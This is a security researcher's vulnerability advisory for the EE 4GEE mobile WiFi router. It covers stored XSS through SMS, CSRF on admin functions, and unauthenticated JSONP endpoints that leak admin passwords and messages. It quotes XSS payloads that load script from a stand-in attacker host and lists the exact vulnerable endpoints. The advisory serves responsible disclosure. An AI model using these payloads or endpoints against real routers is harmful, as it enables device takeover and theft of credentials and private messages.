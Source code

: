 

EE 4GEE Wireless Router - Multiple Security Vulnerabilities Advisory
-------------------------------------------------
Vendor: EE
Product: 4GEE Mobile WiFi Router - Version EE60_00_05.00_25
Product URL: https://shop.ee.co.uk/dongles/pay-monthly-mobile-broadband/4gee-wifi/details
Proof of Concept Writeup: https://blog.jameshemmings.co.uk/2017/08/24/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities-writeup/#more-276
Disclosure Timeline:

Stored Cross Site Scripting (XSS) - SMS Messages:
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Code Execution
<br>
<b>Affected Components:</b><br>http://ee.mobilebroadband/default.html#sms/smsList.html?list=inbox<br>
http://ee.mobilebroadband/getSMSlist?rand=0.19598614685224347
<br>
<br>
<b>Attack Vectors:</b> An attacker can exploit the vulnerability by sending a remote SMS message to the device with an XSS payload such as "<script src=http://payload.js</script>" which is executed upon the user viewing the SMS message within the admin panel "SMS Inbox" functionality. Additionally, self-XSS can be achieved by creating an XSS payload from the device its self within a text message, which could be chained with other vulnerabilities such as CSRF.
<br>
<br>
<b>Vulnerability Description:</b>The 4GEE Mobile WiFi Router is vulnerable to Stored Cross Site Scripting (XSS) within the "sms_content" parameter returned to the application's SMS Inbox webpage by the "getSMSlist" POST request, due to a lack of input validation and/or encoding. This exploit can be triggered by remotely sending an SMS message containing any XSS payload such as '"><script src=http://attacker.tld/r.js></script>' which upon clicking on the text message within the web application is successfully executed. 
<br>
<br>
Additionally, due to the other vulnerabilities identified within this device, such vulnerability can be chained with Cross Site Request Forgery (CSRF) using the Stored XSS payload to send an JavaScript XHR POST request to the "uploadSettings" webpage containing binary configuration data, allowing for total modification of device settings by an attacker.

CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 7.1 - High).

<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s)</b>:
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities

Cross Site Request Forgery (CSRF) - Multiple:
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Code Execution
<br>
<b>Affected Components:</b>
<br>
http://192.168.1.1/goform/AddNewProfile?rand=0.376065695742409
<br>
http://192.168.1.1/goform/setWanDisconnect?rand=0.6988130822240772
<br>
http://192.168.1.1/goform/setSMSAutoRedirectSetting?rand=0.9003361879232169
<br>
http://192.168.1.1/goform/setReset?rand=0.021764703082234105
<br>
http://192.168.1.1/goform/uploadBackupSettings
<br>
<br>
<b>Attack Vectors:</b> ??????
<br>
<br>
<b>Vulnerability Description:</b> The 4GEE Mobile WiFi Router is vulnerable to multiple Cross Site Request Forgery (CSRF) vulnerabilities within various router administration webpages, due to the lack of robust request verification tokens within requests. An attacker could persuade an authenticated user to visit a malicous website using phishing and/or social engineering techniques to send an CSRF request to the web application, thus executing the privileged function as the authenticated user. In this case, due to the lack of authentication on certain privileged functions, authentication may not be neccessary.
<br>
<br>
The following webpages were identified to be vulnerable to Cross Site Request Forgery (CSRF) attacks:
<br>
<br>
AddNewProfile [2].
<br>
setWanDisconnect [3].
<br>
setSMSAutoRedirectSetting [4].
<br>
setReset [5].
<br>
uploadBackupSettings [6].
<br>
<br>
CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 6.8 - Medium).
<br>
<br>
<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s):</b>
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities
<br>
[2] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/AddProfileCSRFXSSPoc.html
<br>
[3] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFInternetDCPoC.html
<br>
[4] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFPocRedirectSMS.html
<br>
[5] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFPocResetDefaults.html
<br>
[6] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/uploadBinarySettingsCSRFPoC.html
<br>

JSONP Sensitive Information Disclosure - Multiple
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Information Disclosure, Escalation of Privileges
<br>
<b>Affected Components:</b> 
<br>
http://192.168.1.1/goform/getPasswordSaveInfo
<br>
http://192.168.1.1/goform/getSingleSMSReport?rand=0.133713371337
<br>
http://192.168.1.1/goform/getSingleSMS?sms_id=1&rand=0.133713371337
<br>
http://192.168.1.1/goform/getSMSStoreState
<br>
http://192.168.1.1/goform/getSMSAutoRedirectSetting
<br>
http://192.168.1.1/goform/getSysteminfo
<br>
http://192.168.1.1/goform/getUsbIP?rand=0.13371337
<br>
<br>
<b>Attack Vectors:</b> ??????
<br>
<br>
<b>Vulnerability Description:</b> The 4GEE Mobile WiFi Router is vulnerable to multiple JSONP information disclosure vulnerabilities within various endpoints which retrieve and/or set data. The JSONP endpoints allow for unauthenticated information disclosure of sensitive configuration data, settings, administration passwords and SMS messages, due to the lack of robust and effective access control. An attacker could view such unauthenticated endpoints via the local WiFi network to gain access to the administration credentials, router configuration and/or SMS messages.
<br>
<br>
CVSS:3.0/AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 8.1 - High).
<br>
<br>
<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s):</b>
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities
<br>
<br>

Disclaimer
-------------------------------------------------
The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
